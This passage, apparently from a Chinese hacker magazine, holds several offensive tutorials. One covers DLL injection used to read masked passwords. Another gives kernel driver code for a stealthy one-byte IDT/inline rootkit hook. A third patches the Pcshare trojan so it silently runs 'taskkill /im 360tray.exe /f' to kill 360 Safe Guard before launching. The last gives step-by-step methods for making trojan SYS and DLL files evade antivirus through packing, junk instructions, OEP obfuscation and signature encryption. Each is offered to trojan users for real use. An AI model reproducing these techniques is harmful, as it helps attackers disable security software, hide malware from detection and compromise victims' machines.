DWORD CALLBACK ThreadProc(LPVOID lp)
{
    // 可以在此调用托管代码
    return 0;
}
```

然后在 DLL 的入口函数 DllMain 里调用 CreateThread 函数，这样就实现了托管代码的注入。

```cpp
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(0, 0, ThreadProc, 0, 0, 0);
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### 托管注入深入

通常我们会有这样的要求：在主程序中单击某个按钮，使宿主执行 DLL 中的一段代码，多次单击就多次执行。

上面的代码无法实现这个目的，因为只有 DLL 刚被注入到宿主时，DllMain 中的 DLL_PROCESS_ATTACH 才会收到通知。我们自然想到，每次执行后卸载掉 DLL，下次单击后，DLL_PROCESS_ATTACH 又会收到通知。遗憾的是，目前我还没有办法卸载掉这个 DLL。

对于非托管 DLL，我们可以通过 FreeLibrary 来卸载（如果是在 DLL 内部卸载，还必须借助 FreeLibraryAndExitThread 函数。关于 DLL 的自卸载，由于没有在这个程序中使用，这里就不做介绍了）。而对于托管 DLL，查阅 MSDN，得到的结论是：.NET 不支持 DLL 的卸载，DLL 只能随着应用程序域的卸载而卸载。

对于混合 DLL，应该如何卸载呢？我尝试用 Win32 DLL 的方式卸载，结果也“真的”卸载了，这是因为 DllMain 中的 DLL_PROCESS_DETACH 收到了通知；用模块查看工具查看，宿主中确实不存在注入的 DLL 了。但事实上是失败了，至少有两个问题：一是关闭宿主时，会提示出错；二是再次注入时，虽然 DLL_PROCESS_ATTACH 会收到通知，但用 CreateThread 创建的新线程并不被执行。

既然 MSDN 上都说无法卸载托管 DLL，那这个问题就应该搁浅了吧。虽然不能卸载这个 DLL，但并不是说就不能实现前面提到的问题。

实际上，每次主程序通过 CreateRemoteThread 函数在宿主创建线程时，DllMain 中的 DLL_THREAD_ATTACH 和 DLL_THREAD_DETACH 也会收到通知，当然最好不要在这里直接调用 CreateThread，这是因为如果不做处理，直接在 DLL_THREAD_ATTACH 中调用 CreateThread，显然会造成死循环，每产生一个线程 DLL_THREAD_ATTACH 就会收到通知，然后又去创建线程，它又会得到通知……

单击按钮注入时，DLL_THREAD_ATTACH 都会得到通知；但反过来，得到了通知，不意味着就是远程注入。一个最明显的情况是，对 CreateThread 的调用就会导致 DLL_THREAD_ATTACH 收到通知，但这并非远程注入。

我的解决办法是：每次主程序调用 CreateRemoteThread 迫使宿主调用 LoadLibrary 加载 DLL 的时候，都会使模块计数器加 1，根据模块计数器的值的变化，就可以确定是否是远程注入了。

#### 示例程序说明

本文的示例程序包括 3 个文件：SuperSpy.exe 是用 C# 写的主程序；Invoke.dll 是用 C++ 写的 DLL，也只能用 C++ 来写；PropertyControl.dll 用 VB.NET 写的插件，它不是必需的。除了 Invoke.dll 必须用 C++ 外，其余两个可以用任意语言写。

大家也许会感到奇怪，为什么有两个 DLL？其中 PropertyControl.dll 是一个插件，我们完全可以把所有的代码都放到 Invoke.dll 中。之所以用插件的形式，只是为了方便编写自己的插件，插件的规范是，在任意一个类中实现以下成员（可以用习惯的语言来编写这个插件）：

```csharp
public static void Inject();
public static string Description{
    get;}
```

这两个成员都必须是公共、静态的，其中 Inject 方法是注入后要调用的方法，Description 属性是用于描述插件作用的。

我自己实现的插件的功能是：查询和编辑一个托管程序中所有窗口（包括控件）的属性，这是一个很强大的功能，这里举两个现实例子。

- 1. 星号密码查看。由于已经注入，本来显示为星号的密码，可以直接通过 Text 属性获得。
- 2. 灰色按钮突破。只需将窗口的 Enabled 属性设置成 true 即可。

以往要实现这两个功能，都需要分别编写相关的程序，而现在仅仅是这个插件的一个简单应用。而且，我们还可以编写自己的插件，来实现自己的要求。

我在示例程序中只给出了程序，没有给出源代码，因为核心思路已经说得非常明白了，相信大家很容易就可以自己实现了。

前置知识：VC，汇编  
关键词：编程、inline Hook、IDT Hook

### 修改函数一个字节
#### 实现新型 Hook

文/图 王斌

Rootkit 的研究里，有一门重要的技术是 Hook。Hook 实现起来非常简单，仅仅修改函数几个字节，或稍微修改一部分系统指令，便可完成隐藏文件、隐藏端口、拦截进程关闭，以及监控系统的各种功能。所以目前的 AntiRootkit 也不甘其后，加入了各种 Hook 的检测机制。现在我所知道的 Hook 大概有以下几种：Object Hook、SSDT Hook、inline Hook、IDT Hook、IRP Hook、SYSENTER Hook、IAT Hook 和 EAT Hook。

以上几种 Hook 方式各有优缺点。Object Hook 功能强大，但实现起来需要对系统有比较深的了解，检测也比较简单。SSDT Hook 更不用说了，由于太普及了，基本所有杀软和主动防御软件都对 SSDT 监控非常严格，虽然功能强大，一旦修改却极易被查出。Inline Hook 是个好的选择，实现简单，而且系统那么多的函数，任意在一个关键地方挂钩都有不小的杀伤力，所以本文主要讨论一种新型的 inline Hook 方式。

据我所知的 inline Hook 大概有如下几种方式：

- 1）修改函数前 5 个字节，跳转到我们的 fake 函数中。
- 2）利用 Windows “故意”留下的“后门”。仔细观察 Windows 的系统函数，可以发现绝大多数 Windows 系统函数（甚至是 VC 编译器编译出来的函数）开头是固定的 “MOV EDI, EDI”（机器码 0x8B 0xFF）无破坏性 NOP 操作指令。据了解，这是早些时候微软特意为了 detours 库的 inline Hook 准备的代码，修改它们为短跳转指令 “jmp short xx”（机器码 0xEB...）跳转到函数头的前面，然后再结合远跳转 “JMP FAR xx” 便能实现 Hook 了，这就是二段跳。
- 3）Deep Hook。其实这也不是什么大不了的方式，就是把跳转指令放在第 5 个字节以后。这种方式挂得比较深，但需要了解被挂钩的函数。我所知的韩国的游戏保护 nProtect 就利用了非常多的 Deep Hook。
- 4）别的一些多段跳指令组合。

以上各种方式都是前人利用得比较多的了。现在的 AntiRootkit 对 inline Hook 的检测一天比一天严格。对付修改函数字节为跳转指令的 Hook，一般的做法是扫描函数的前几十个字节是否有跳转指令。《黑客防线》以前就有讲用开源反汇编引擎实现检测的，大家可以去看看。

那么现在有没有比较好的方法突破呢？刚好前几天在看雪见到了 Sysnap 提出的新型方式：inline Hook 和 IDT Hook 结合实现 Hook。简单来说，就是利用前文所述之 Windows “故意”留下的“后门”——“MOV EDI, EDI”，把第一个字节改为 0xCD，则刚好和后面的 0xFF 连起来形成 “INT FF” 指令，然后再挂钩 IDT 的 0xFF 中断，这样当系统执行函数第一条指令的时候便会产生中断异常，随即执行我们的挂钩函数。很简单的思路，但实现功能却非常强大！按照 Sysnap 的话来说，“这种方法可以绕过现在很多工具的 inline Hook 检测……因为我们只修改函数开头的一个字节……本质上说不是 inline Hook，没有 jmp”。文中 Sysnap 并没有给出代码，但往往一个好的思路就是对 HACKER 最大的鼓舞。

#### 编程解析
#### PROGRAMMING ANALYSE

栏目编辑 / socket / socket@hacker.com.cn

在实现这个思路之前，我们需要对 IDT 有个简单的了解。IDT（Interrupt Descriptor Table，中断描述表）是一个有 256 个入口的线性表，每个 IDT 的入口是个 8 字节的描述符，所以整个 IDT 表的大小为 256*8=2048 bytes。每个中断向量关联了一个中断处理过程。所谓的中断向量就是把每个中断或者异常用一个 0～255 的数字识别。Intel 称这个数字为向量（vector）。对于中断描述表，操作系统使用 IDTR 寄存器来记录 IDT 位置和大小。IDTR 寄存器是 48 位寄存器，用于保存 IDT 信息。其中低 16 位代表 IDT 的大小，大小为 7FFH；高 32 位代表 IDT 的基地址。在我的机器上，基地址是 8003F400H。我们可以利用指令 sidt 读出 IDTR 寄存器中的信息，从而找到 IDT 在内存中的位置。

IDT 有 3 种不同的描述符或者说是入口，分别是任务门描述符、中断门描述符和陷阱门描述符。Intel 参考手册上指出，“同步中断”（在一个指令执行完成后，由 CPU 控制单元产生的）为“异常”；异步中断（可能会在任意时刻由其他硬件产生的）才称为“中断”，中断由外部的 I/O 设备产生。但是异常是由编程错误或者是由反常情况（必须由内核来处理）触发的。在该文档中，术语“中断信号”既指异常又指中断。

中断分为两种类型：可屏蔽中断，在短时间片段里可被忽略；不可屏蔽中断，必须被立即处理。例如硬件失败为不可屏蔽中断，IRQ（中断请求）失败为可屏蔽中断。异常被分为不同的两类：处理器产生的异常（Faults、Traps、Aborts）和编程安排的异常（用汇编指令 int n 或 int 3 触发），后一种就是我们经常说到的软件中断。

说了这么多，大家只需知道，CPU 是通过 IDT 来处理中断和异常的。我们上文提到的“INT 0xFF”是一种软中断，当 CPU 在 Ring0 执行这条指令的时候，就产生软中断，然后 CPU 去 IDT 查询第 0xFF 号中断的处理函数的位置。接下来 CPU 执行如下操作：把 EFLAGS、CS、EIP 压入堆栈（这将在我们的中断处理函数中用到），随后执行中断函数。

理论部分就介绍这些了，下面看代码实现（选用 RtlRandom 这个内核函数作为被 Hook 函数）。

```cpp
NTSTATUS DriverEntry(
    IN PDRIVER_OBJECT DriverObject,
    IN PUNICODE_STRING RegistryPath
)
{
    ......
    // 一些驱动入口的常规函数
    RtlInitUnicodeString(&pFcnName, L"RtlRandom");
    pCurRtlRandom = MmGetSystemRoutineAddress(&pFcnName);
    // 得到 RtlRandom 函数地址
    pOldFunc = pCurRtlRandom;
    HookIDT(); // 遍历 IDT，对 0xFF 号中断拦截
    HookFun(pOldFunc);
    // 修改 RtlRandom 的开头第一个字节，实现拦截
    seed = 31337;
    pCurRtlRandom(&seed);
    // 调用 RtlRandom 函数，验证效果
}
```

下面是 HookIDT 函数的代码：

```cpp
NTSTATUS HookIDT()
{
    IDTINFO idt_info;
    IDTENTRY* idt_entries;
    IDTENTRY* i;
    unsigned long addr;
    unsigned long count;
    char _t[255];
    // 加载 IDT 信息到 idt_info
    __asm sidt idt_info
    // 得到中断入口
    idt_entries = (IDTENTRY*)MAKELONG(idt_info.LowIDTbase, idt_info.HiIDTbase);
    // 打印中断入口
    for (count = 0; count < MAX_IDT_ENTRIES; count++)
    {
        i = &idt_entries[count];
        addr = MAKELONG(i->LowOffset, i->HiOffset);
        _snprintf(_t, 253, "Interrupt %d: ISR 0x%08X", count, addr);
        DbgPrint(_t);
    }
    DbgPrint("Hooking Interrupt...");
    // 开始拦截中断，先保存老的中断入口
    old_ISR_pointer = MAKELONG(idt_entries[NT_INT_TIMER].LowOffset, idt_entries[NT_INT_TIMER].HiOffset);
    // 把新中断入口填入中断向量表，实现拦截
    __asm cli
    idt_entries[NT_INT_TIMER].LowOffset = (unsigned short)my_interrupt_hook;
    idt_entries[NT_INT_TIMER].HiOffset = (unsigned short)...
}
```

```cpp
NTSTATUS DriverEntry(
```

```c
short)((unsigned long)my_interrupt_hook >> 16);
__asm sti
DbgPrint("Hooking Interrupt complete");
return STATUS_SUCCESS;
}
```

```asm
inc eax
inc eax
push eax
ret
```

可以看出，中断拦截是众多 Hook 方式中比较简单的一种，这得益于 x86 系列简洁的中断机制设计。别的 Hook 拦截都是针对某种平台的，而 IDT Hook 是可以跨平台的。

上面这段代码保存了 0xFF 号中断的地址。但在我的调试中发现，0xFF 号中断基本没怎么被用到，可以不用保存（另外说几句，我在 Syser 中查看，发现 0xFF 号中断原始函数位于 ntoskrnl 模块中，查阅了很多资料，最后才在 IDA 中得到解释“AT/XT286/PS50+ - may be destroyed by return from protected mode using VDISK on 286 machines”，字面意思是从保护模式返回的时候被毁坏，我也不是很懂。不过可以看出这个中断基本没什么用处，可以放心改动而不必保存）。

下面是简单修改函数的首字节实现代码：

```c
int HookFun(void* pFN)
{
    // 判断函数首字节是否符合条件
    if (*(BYTE*)pFN!=0x8b||*((BYTE*)pFN+1)!=0xff)
        return 0;
    __asm cli
    *(BYTE*)pFN=0xcd;
    __asm sti
    return 1;
}
```

然后我们处理被拦截函数的例程。由于只是示范，这里只打印出 my_interrupt_hook 字符串。

```c
__declspec(naked) my_interrupt_hook()
{
    __asm
    {
        pushad
        pushf
    }
    DbgPrint("my_interrupt_hook...");
    __asm
    {
        popf
        popad
        add esp,0xc
        mov eax,pOldFunc
    }
}
```

这里有几个地方需要注意，my_interrupt_hook 代码中的“add esp,0xc”是怎么来的呢？我们先看图1，这是 CPU 执行到 RtlRandom 函数开头时的寄存器情况。而执行“int 0xFF”后，就成了图2的结果，看得出 ESP 减了 0xC。这正是由于中断执行时，CPU 把 eflags、cs、eip 压入堆栈导致的。Eflags、eip 都是 4 个字节，加上 CS 两个字节，正好 0xC 个字节。我在挂钩的时候一直没有注意到这个问题，导致无数次的 BSOD，最后借助 SYSER 的调试才发现 ESP 发生变化，随后翻阅《软件调试》才找到答案。所以代码中“add esp,0xc”正是为了平衡堆栈。随后的 inc eax、inc eax、push eax、ret 指令便是使用小技巧 PUSH/RET 跳转到原函数执行。这里并未跳转至原中断函数中，假设 0xFF 号中断从未被调用。


从上述可以看出，本文 Hook 方式实现非常简单，而且由于只修改一个字节，隐藏性好。唯一不足的是需要挂接 IDT。如果杀软检测 IDT，Hook 便会暴露。不过我们可以结合多段跳，例如首先得到中断 0xFF 的地址，然后再次 Inline Hook 这个地址并跳转到我们的函数中。杀软很少会检测中断 0xFF 是否被 Inline Hook 的，这样便间接绕过了 Inline Hook 检测机制。

适合读者：木马爱好者

前置知识：汇编

## 逆向工程打造木马过360监控

文/图 小鱼


玩木马的都知道，最近360安全卫士新版本也增加了监控功能，而我们的大多数木马在运行后，360安全卫士监控都会报警。就拿继鸽子时代后用得最多的 Pcshare 来说，它运行后，360安全卫士会提示“一个未知的系统服务正在被装入”。我想玩 Pcshare 的应该对这个再熟悉不过了。呵呵，没关系，看完今天这篇文章你就不会再烦恼了。下面就让我带领大家开始我们的逆向工程打造木马过360监控之旅吧！

嘻嘻，开始之前呢，请大家耐心地听我说说这篇文章的题外话，也是今天这篇文章的思路。大家只有先明白了思路，然后再看文章，才能比较透彻地理解整篇文章的内容。

360监控的原理我就不说了，说下来估计半篇文章都说不完，而且怕编辑部的 MM 说我有骗稿费的嫌疑，嘻嘻……废话至此，切入正题吧！我的思路是这样的，不知道大家发现没有，360安全卫士监控的进程是没有做进程防杀的，什么意思呢？就是通过进程管理器就可以直接结束掉进程，大家可以回去拿自己的进程管理器试试，看能不能结束掉360监控的进程，360监控的进程是“360tray.exe”。它还有一个最大的弊端，就是结束掉进程后，任务栏的图标是需要触发焦点才可以消失的。呵呵，看到这里，大家肚子里的坏主意是不是已经出来了？只要我们的木马在运行前能结束掉360监控的进程，然后再运行木马，不就可以过360监控了吗？而且任务栏图标还不会消失。试想一下，谁没事情总去看看自己的360监控是否还在监控状态呢？只要他不触发任务栏图标的焦点，就不会消失的。所以，我们此次就是利用了这个假象。估计现在大家应该都是拿着鸡蛋、西红柿朝我砸来并说“废话这么多，你还没告诉我怎么做呢”。呵呵，别急，大家接着往下看嘛！

首先呢，文章标题是逆向工程，所以我们需要用到的工具就是 OllyDebug 和 LordPE，这两个工具，相信看《黑客防线》杂志的地球人都应该有，不要拿砖拍我……前面已经说过，如果能使我们的木马在运行前先结束掉“360tray.exe”进程，然后再运行木马，就可以做到完美地过360监控。但是怎么做呢？不知道大家是否知道 WinExec 函数，微软对它的解释是运行一个指定的应用程序。我们拿它来做什么呢？先来看一个 DOS 命令“taskkill /im 360tray.exe /f”，在你的 DOS 下运行，看看你的“360tray.exe”进程是否还在。这里为了能让大家更好地利用这个 WinExec 函数，我解释一下这个函数的意思。

> The WinExec function runs the specified application. This function is provided for compatibility with earlier versions of Windows. For Win32-based applications, use the CreateProcess function.

```c
UINT WinExec(
  LPCSTR lpCmdLine, // address of command line
  UINT uCmdShow     // window style for new application
);
```

从上面的这段英文我们可以知道，WinExec 函数的第一个参数是 lpCmdLine，后面的注释说明这个参数是一个命令行；第二个参数是 uCmdShow，后面的注释说明它是标志着应用程序的外观。我们玩木马的当然不能让我们的程序显示出一个窗口，所以这里就提前说明一下，这个参数就是 SW_HIDE。看到这里大家应该明白我之前那一番苦心的解释了吧？既然这个函数可以运行指定的应用程序，那么我们是否可以让它运行我们刚刚的那段杀360进程的 DOS 命令呢？答案是肯定的。那么接下来我们就来看看具体的实例吧。

## HACKER TOOLS ATTACK&DEFENCE

开始之前，我觉得有必要说下我们的具体做法。我们通过 OllyDebug 加载木马，然后找一段 0 区域。因为我们的 PE 文件的区块不可能刚好和代码相匹配的，肯定会存在空隙的，所以我们就在这段空隙上来进行代码写入。找到一段 0 区域后，先把我们的“taskkill /im 360tray.exe /f”这段 DOS 命令写到一个地址里，因为 API 函数传递参数是通过堆栈来传递的，我们不可能直接把这段命令压入堆栈，因此只能把存放这段命令的地址压入堆栈。这里我就边说边做吧，下面通过一个本地配置 Pcshare 的服务端来给大家做测试。运行 OllyDebug 载入我们的服务端，记录木马服务端的入口点，因为我们要先让木马执行完杀“360tray.exe”进程代码后，再跳转到木马原入口点继续往下运行。


Pcshare 服务端的入口点是 0040254F，记录完入口点后，再找一段 0 区域，这里我已经找好了，如图1所示。

找到 0 区域后，再把“taskkill /im 360tray.exe /f”这段杀360进程的字符串写入到一个地址里，这里需要注意一点，千万不要 NOP，因为 NOP 在汇编中是空指令的意思，对应的16进制就是90，编译器也会解释的，所以如果 NOP 的话，一会儿在写入代码的时候，后面就会有乱码出现的。我这里就把这段字符串写到 00402707 这个地址里，要写入“taskkill /im 360tray.exe /f”，仅仅 00402707 这个地址显然是不够的，所以我们从 00402707 这个地址开始往下选择一个比较大的区域，然后点击“二进制编辑”，写入代码，如图2所示。


刚刚已经说过，我们不能直接把这些字符串压入堆栈，只能把存放这些字符串的首地址压入堆栈就行了，也就是把 00402707 压入堆栈。

好，接下来我们需要往下再找一段 0 区域，写入正式的代码。找到 0 区域后，我们需要 NOP 一下，因为“00”程序在运行的时候是不进行解释的，而 NOP 是能解释的。之所以如此，还因为 WinExec 函数是 kernel32 动态链接库里的，要调用 WinExec 函数，木马必须要加载 kernel32 动态链接库。如果没有加载，我们则需要手动加载，手动加载是通过 LoadLibrary 函数来实现的。两者的方法是一样的。kernel32 动态链接库主要存放了一些系统服务功能的函数，而木马基本上都要加载这个动态链接库，所以我们这里就可以直接调用 WinExec 函数了。调用 API 函数一般遵循的是 stdcall 格式，也就是从右向左。也就是我们的 WinExec 的第2个参数先压入堆栈，再把第一个参数压入堆栈，然后再“CALL WinExec”。写入的具体代码是“PUSH SW_HIDE”（也可以为 PUSH 0，因为动态链接库也可以通过数值来标示，0 代表 SW_HIDE）、“PUSH 00402707”和“CALL WinExec”（也可以是 WinExec 函数的地址，WinExec 注意大小写一定要写正确。同样字母，大小写代表的 ASCII 码是不同的）。写完这些代码后，还需要跳转到程序的入口点，也就是“jmp 0040254F”。具体写入的代码如图3所示。


操作成功后，再记下新的入口地址 00402746，等一下我们需要通过 LordPE 修改程序的入口地址。全部完成后，我们就可以保存文件了。保存后，我们再通过 LordPE 来修改入口地址，如图4所示。嘿嘿，现在你就可以测试一下看看，木马完美上线了，360监控无任何提示，任务栏的图标也不会消失。这样，我们的木马就可以完美地过360安全卫士的监控了。


适合读者：木马爱好者

前置知识：无

## SYS与DLL文件的大范围免杀

#### 黑防系列远控工具免杀全集

文/图 姬良


过主动防御是后鸽子时代的远控木马必备的新功能之一，而过主动防御的木马服务端中大都有一个扩展名为 SYS 的文件，用于隐藏驱动、隐藏木马，从而使木马达到过主动防御的目的，而这个 SYS 文件的免杀也成为了如今免杀圈内的难点。因为 SYS 文件的免杀方法不能简单套用对 EXE、DLL 文件的免杀方法。SYS 文件运行在底层，很娇气，不能大手术，否则会完不成其原有功能。

目前针对 SYS 文件最主流的免杀方法，就是修改特征码法来实现免杀了。很多人认为使用修改特征码法免杀木马是免杀的最高境界，其实不然，笔者认为修改特征码实现木马的免杀这一方法实为下下之策，因为此方法很难实现大范围免杀。真正的特征码修改法应该这样应用：在大范围免杀后，针对一些难以通过其他方法免杀的杀毒软件进行特征码修改来实现免杀，这才是最好的方法。网上流传了很多 SYS 文件免杀的教程，笔者认为这些教程大都不是很好，因为这些免杀 SYS 文件的教程多数为使用特征码修改法来实现 SYS 文件单一或者是小范围的免杀。今天，我们就一起来看看如何实现 SYS 文件的大范围免杀，方法都很简单，只要大家认真读了，应该都可以成功的。

壳，如 UPX 这个老壳，给 SYS 文件加上后，SYS 运行便会错误。还有笔者的最爱 NSPACK V3.7，这个壳的兼容性非常好，却也不可以对 SYS 文件进行加壳处理。但用 ASPACK 2.12 这种壳加壳，则可以运行，不过加壳后的文件几乎起不到任何免杀效果，所以我们还要对加过壳的文件进行修改，可以加花、修改壳头或修改 EP 区段实现，我这里用加花方式。加花之后，杀毒软件便不再认识这个 SYS 文件是用什么工具加的壳了，或是不认为这个 SYS 文件是加过壳的，从而实现我们的 SYS 文件大范围免杀目的。

原理讲完了，下面进入实战演练，免杀目标是黑防专版 PCSHARE 的 UPDATA 文件夹中的 SYS 文件，用到的工具是 Aspack 2.12 注册版和 C32ASM、PEDITOR V1.7、PEID V0.94 以及加区段工具 ZEROADD V1.0。我们先用 ASPACK 版给 SYS 文件加壳，方法是打开 ASPACK 2.12 注册版，单击“打开”，在弹出的对话框中选择 SYS 文件并确定，SYS 文件就被加上 ASPACK 2.12 壳了。

下面再对加过壳的文件进行加花，加花之前要先对 SYS 文件加区段。打开加区段工具 ZEROADD V1.0，在“pick a file”处选择刚刚加壳的 SYS 文件，在“Enter a name for the new section”输入框输入新加区段的名字，这里用“textt”；在“Enter # of bytes to add (in hex)”输入框里输入新加区段的大小，这里用“52”。最后点击“Add new section”，新区段就加完了，如图1所示。

### 方法一：壳外花法

网上的免杀 SYS 文件教程之所以大多为修改特征码实现免杀，是因为 SYS 文件不可随意加壳。

C32ASM 打开加过 ASPACK 2.12 壳和区段的 SYS 文件，记下入口点，这里是“00400300”。


图1

好了，下面我们用工具 PEDITOR V1.7 打开加过区段的 SYS 文件，把入口点改为新加区段的起始地址（可以用 PEID 得到），这里是“00280000”，保存文件后，再用 C32ASM 打开改过入口的 SYS 文件，程序停在入口处，在第一行输入如下花指令：

```asm
asm
push ebp
mov ebp,esp
push -1
push 0
push 0
mov eax,dword ptr fs:[0]
push eax
mov dword ptr fs:[0],esp
sub esp,68
push ebx
push esi
push edi
pop eax
pop eax
pop eax
add esp,68
pop eax
mov dword ptr fs:[0],eax
pop eax
pop eax
pop eax
pop eax
mov ebp,eax
jmp 00400300
```

并在花指令的末尾加上“jmp 00400300”，其中“00400300”为刚才记下的原入口地址。保存加过壳外花的 SYS 文件，上传到 http://www.virustotal.com/ 上测试，免杀效果还真不错。

#### 方法二：加入口处理法

方法二是简单加入口处理法实现 SYS 文件的大范围免杀。这个方法很简单，不会手工实现的读者，可以和我一起用工具简单几步实现 SYS 文件的大范围免杀。首先讲一下我们常用的工具 MASK PE 2.0，这个程序中的“TYPE 1”为简单加密，“TYPE 2”为简单偏移，“TYPE 3”为简单添加入口，这里用到的就是“TYPE 3”选项。

这次我们的免杀目标是黑防远控 BY_SHELL，为了使 BY_SHELL 每次运行都可以生成免杀服务端，我们就免杀 BY_SHELL 中的空白（个人信息）SYS 文件，用到的工具有 PE Explorer v1.99 和 MASK PE 2.0。

打开 PE Explorer，载入 BY_SHELL 主程序，之后就可以在 PE Explorer 主界面的左边看到载入的服务端的资源树状结构。在 PE Explorer 树形结构中的“EXE”上单击鼠标右键，在弹出的右键菜单中选择“导出->导出为”，并单击“导出为”命令，在弹出的保存菜单中将这个 EXE 文件保存下来，名字不用改，扩展名为 EXE。至此，我们就已经将 BY_SHELL 中的 EXE 文件导出来了。

下面我们再用 PEID 检查一下这个 EXE 文件是否加壳了，结果显示出没有加壳。之后再载入刚才导出的 EXE 文件，把这个 EXE 文件中的 SYS 文件导出，方法一样，我就不再细说了。

接下来拿出我们的工具 MASK PE 2.0，点“Load File”加载刚刚生成的服务端，在第一个下拉列表里选择“Import Table Information”，后面的下拉列表中选择“TYPE3”，然后点“Make File”生成加完入口后的程序，别忘了把扩展名填成 SYS。再打开 MASK PE 2.0 加载刚刚处理过的 SYS 文件，然后在第一个下拉列表里选择“Base Relocation Table Information”，第二个下拉列表里选择“TYPE3”，然后再点击“Make File”，生成一个新的 SYS 文件，这个文件就是最终免杀的 SYS 文件了。哦，对了，是大范围免杀的 SYS 文件。最后就是再用上面的方法把这个大范围免杀的 SYS 文件导入到 BY_SHELL 的主程序。

中了。方法和前面导出的过程差不多。到这里，我们用简单添加入口的方法大范围免杀 SYS 文件的工作就结束了。

#### 方法三：OEP 混淆

方法三就是用 OEP 混淆的方法来实现 SYS 文件的大范围免杀，直接用工具就可以轻松实现。这里用到的工具只有一个，就是 PE-Armor 壳程序，这个壳的功能可是相当多，既可以对程序进行压缩，又可以对代码进行加密，还可以对文件进行加花。不过，在用该程序对 SYS 文件进行处理时，切记在选项中只激活“备份文件”和“OEP 混淆”两个选项，如图2所示，不要用其他选项对这个 SYS 文件进行处理，因为前面说过，这个 SYS 文件很娇气，动不动就不干活了，不可以乱用对 EXE 文件免杀的方法对 SYS 文件进行处理。好了，我用这个工具免杀了黑防 PCSHARE 中 UPDATA 文件夹下的 SYS 文件，测试了一下，程序正常运行，可以躲过卡巴斯基和瑞星的查杀。


图2

#### 方法四：修改默认信息

方法四就是用 UltraEdit32 等编辑器来编辑一下 SYS 文件的默认信息，本文以 UltraEdit32 为例进行说明，免杀目标是黑防专版 PCSHARE 中的 UPDATA 文件夹下的那个 SYS 文件。首先用 UltraEdit32 打开这个 SYS 文件，来到“00000380H”这个地方，然后我们把这段代码用 16 进制的 00 填充。也就是把该处的“5A3A5C506353686172655CE5A48DE4BBB620E5858DE8B4B9E789885C5063456964655C6F626A63686B5C693336365C534144464644474552475245472E706462”全都用“00”替换。

替换完成后，我们往下翻，来到一处有 EXE 的标志地方，也就是“00001500H”处。在这里可以看到“ntoskrnl.exe”，我们在其上直接转换大小写，改为“ntOsKrnl.ExE”，如图3所示。之后保存文件，用这个文件生成服务端并运行，然后切换到 CMD 下看看链接，没有 IP，IP 是“0.0.0.0”，SYS 文件的功能还存在，成功免杀，而且这个 PCSHARE 的 SYS 文件不用校验和。这个方法可以过瑞星和所有国产杀毒软件（我的意思是比较出名的国产杀毒软件）。


图3

#### 方法五：改进的特征码修改法

方法五属于特征码方法，但不是传统的特征码修改法。以前的杂志上曾经刊登过一篇 SYS 文件特征码修改的文章，文中提到 SYS 的特征码不能过分更改，需要一定的汇编知识才可以更改，而我这里就避开这点，用加密法来加密特征码，用到的工具是 VMProtect 1.21。同样是免杀黑防 PCSHARE 中的 SYS 文件，特征码我已定位好，就是“00010986”。启动 VMProtect 1.21 载入要免杀的文件，然后在左面的树形分支上单击右键，选择“添加地址”命令，在弹出的对话框中，输入特征码所在的地址，即“00010986”，如图4所示，然后进行加密，就选择近处加密吧。比如在程序的右边选中“00010996”这个地址，右键单击，点击“程序末端”命令，最后再单击一下，用那个类似播放的三角号进行编译即可，之后保存文件，这个文件就免杀了。是不是很简单？保证所有功能都正常。


图4

至此，我们的 SYS 文件大范围免杀的教程就要告一段落了，下面进入 DLL 文件的大范围免杀。

### DLL 文件大范围内存免杀

说完了 SYS 文件的大范围免杀，接下来再说说 DLL 文件的“内存”大范围免杀。也许大家会感到很奇怪，如何来实现内存大范围免杀啊，内存免杀不就是改内存特征码吗？其实不然。文件的内存特征码通常设在该文件的输入表中，我们只需要修改 DLL 文件的输入表即可实现内存方面的大范围免杀。但是如何修改输入表，从而实现 DLL 文件内存大范围免杀而又不影响文件的正常功能呢？相信很多读者都已经有答案了，那就是重建输入表。最简单的方法就是先对 DLL 文件进行加壳处理，再对其进行脱壳处理，最后对其进行修复输入表，从而实现内存方面的大范围免杀。但是这种方法不能保证一定免杀，所以要配合内存特征码定位与修改法一起使用，效果才好。有不会定位内存特征码并修改的读者可以翻阅以前的杂志上我的几篇内存特征码修改方面的拙作。

原理讲了大半天，下面又该进行实战演练了。我们大范围内存免杀的对象是黑防 PCSHARE 中 UPDATA 文件夹下的 DLL 文件，用到的工具是我的最爱北斗壳和 OD，以及输入表重建程序。

我们先要把免杀对象加上北斗壳，方法是：打开北斗壳，载入 UPDATA 文件夹下的 DLL 文件，然后点击北斗壳主程序上的“压缩”按钮，压缩便会成功。接下来再进行脱壳，北斗壳可以直接用 ESP 定律脱掉，方法是用 OD 打开加过北斗壳的 DLL 文件，按一下“F8”跟踪一步，注意此时 ESP 的值已经是“0012FFC0”，直接在这个值上单击鼠标右键，在右键菜单中单击“数据窗口中跟随”，如图5所示。接着回到数据窗口中，下一个双字的硬件访问断点，之后按“F9”运行程序，中断后，按一下“F8”单步运行一下，程序便会来到 OEP 处，直接 DUMP 即可，然后用输入表重建程序进行一下修复即可。

具体方法大家都会，我就不占用《黑客防线》宝贵的版面了。经过如此操作，这个 DLL 文件就已经是大范围内存免杀的了。不过这样修改输入表壳不会影响病毒文件的免杀，所以文件免杀还要另做。不过文件免杀相对简单一些，且不在本文讲述范围之内，不会文件免杀的读者可以查看其他文章。

到此，DLL 文件的大范围内存免杀也讲述完毕了。不过文章还没有结束，下面进入文章的下一部分——免杀的常用套路和免杀经验小结。


#### 免杀小结

